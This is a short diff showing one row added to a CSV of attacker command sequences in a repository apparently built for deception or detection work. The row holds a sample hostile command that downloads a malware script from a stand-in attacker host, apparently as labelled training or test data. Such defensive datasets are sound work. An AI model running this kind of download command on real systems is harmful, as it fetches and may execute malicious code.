

Before and after one commit to Rizzy1857/Apate, a CSV file: data/sequences.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/data/sequences.csv
+++ b/data/sequences.csv
+row 92: attacker-001 | wget http://evil-site.com/malware.sh | medium | false
```
Also changed, not shown: data/sessions.csv, 16 other files.
